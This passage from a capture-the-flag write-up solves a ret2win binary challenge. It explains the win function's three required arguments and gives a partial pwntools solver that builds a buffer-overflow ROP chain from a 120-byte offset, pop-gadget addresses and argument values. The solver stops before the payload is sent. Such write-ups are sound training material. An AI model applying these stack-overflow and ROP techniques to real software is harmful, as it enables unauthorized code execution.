 ![disassemblywin](ret2win2disasswin.png)
as you can see, win function need 3 arguments for gaining true condition,so we can fill it with RDI, RSI, and RDX variable, RDI = `0xdeadbeefdeadbeef`, RSI = `0xabcd1234dcba4321`, and RDX = `0x147147147147147`
so this is the solver
#### Solver
```py
from pwn import *

host = "playground.tcp1p.team"
port = 19001

win_addr = 0x401227

pop_rdi = 0x40121e 
pop_rsi = 0x401220  
pop_rdx = 0x401222  
ret_addr = 0x000000000040130c 
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xabcd1234dcba4321
arg3 = 0x147147147147147

offset = 120

payload = b"A" * offset
payload += p64(pop_rdi) + p64(arg1)
payload += p64(pop_rsi) + p64(arg2)
payload += p64(pop_rdx) + p64(arg3)
```